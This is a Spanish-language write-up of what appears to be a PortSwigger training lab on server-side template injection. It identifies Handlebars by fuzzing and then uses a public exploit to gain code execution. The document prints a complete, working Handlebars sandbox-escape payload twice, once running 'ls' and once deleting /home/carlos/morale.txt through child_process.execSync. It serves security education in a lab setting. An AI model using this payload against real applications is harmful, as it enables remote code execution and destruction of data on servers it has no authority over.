


# 💉 SSTI en lenguaje desconocido con exploit público

## 📄 Descripción del laboratorio

La aplicación evalúa contenido controlado por el usuario en el servidor utilizando un **motor de plantillas no identificado explícitamente**.

No existe sanitización ni escape del contenido introducido, pero el motor no es evidente (no es **Jinja, ERB, Freemarker, Twig**, entre otros).

Esto obliga a:

* Identificar el **motor de plantillas mediante fuzzing y análisis de errores**.
* Buscar un **exploit público documentado**.
* Utilizarlo para lograr **ejecución de código arbitrario (RCE)**.

El objetivo es:

* Identificar el **motor de plantillas desconocido**.
* Encontrar un **exploit público funcional**.
* Ejecutar código en el servidor.
* Eliminar el archivo:

```
/home/carlos/morale.txt
```

 

## 📚 Teoría

Cuando el motor de plantillas no es evidente, la metodología habitual consiste en realizar:

### 📌 Fuzzing sistemático

Probar sintaxis típica de motores conocidos y observar el comportamiento de la aplicación.

Ejemplos de sintaxis comunes:

```ruby
{{ }}

${ }
```

### 📌 Fingerprinting del motor

Se analiza:

* La **sintaxis aceptada**.
* Los **mensajes de error** generados.
* El **comportamiento frente a expresiones inválidas**.

### 📌 Búsqueda de exploits públicos

Una vez identificado el motor, se pueden buscar exploits en fuentes como:

* **PayloadsAllTheThings**
* **GitHub**
* **Write-ups de CTF o PortSwigger**
* **Issues de seguridad del propio motor**

En este laboratorio, el motor de plantillas resulta ser **Handlebars**.

### 📌 Consideraciones sobre Handlebars

Handlebars no permite **RCE de forma nativa**, ya que es un motor con lógica limitada.

Sin embargo, cuando se utiliza en **Node.js** y se combina con:

* Helpers inseguros
* Acceso al **constructor de funciones**

puede derivar en **ejecución de JavaScript arbitrario**.

Existe un exploit público conocido que permite:

* Escapar el sandbox lógico.
* Acceder al **constructor de funciones**.
* Ejecutar comandos mediante:

```javascript
require('child_process').execSync()
```

 

## 📝 Práctica

### 🎯 Objetivo

Eliminar el archivo:

```
/home/carlos/morale.txt
```

explotando una vulnerabilidad **SSTI en un motor desconocido**.

 

### 1️⃣ Identificación del motor

Se navega por la aplicación hasta localizar un punto donde se refleja **contenido dinámico controlado por el usuario**.

Se prueban payloads de fingerprinting:

```ruby
{{7*7}}
${7*7}
<%= 7*7 %>
```

<br>

Resultado:

* La sintaxis `{{ }}` es interpretada.
* Los errores y el comportamiento coinciden con **Handlebars**.

Esto confirma que el motor utilizado es **Handlebars**.

 

### 2️⃣ Búsqueda de exploit público

Se consultan fuentes públicas como:

* **PayloadsAllTheThings → SSTI → Handlebars**
* Write-ups públicos de SSTI en **Node.js**

Se identifica un exploit conocido que:

* Abusa de la función **lookup**.
* Accede al **constructor de funciones**.
* Ejecuta **JavaScript arbitrario**.
* Permite ejecutar comandos mediante `child_process.execSync`.

 

### 3️⃣ Payload de prueba (RCE)

Se prueba el siguiente payload para confirmar ejecución de código:

```ruby
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Resultado:

El servidor ejecuta **código JavaScript**, confirmando que `execSync()` funciona y que existe **RCE**.

 

### 4️⃣ Explotación final

Se adapta el payload para eliminar el archivo objetivo:

```ruby
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

El payload se envía al campo vulnerable (codificado en URL si es necesario).

El comando `rm` no genera salida visible, pero se ejecuta correctamente en el servidor.


 

### 5️⃣ Resultado final

El archivo:

```
/home/carlos/morale.txt
```

es eliminado correctamente mediante **SSTI explotando Handlebars**.

El laboratorio detecta la acción y se marca como **resuelto automáticamente**.
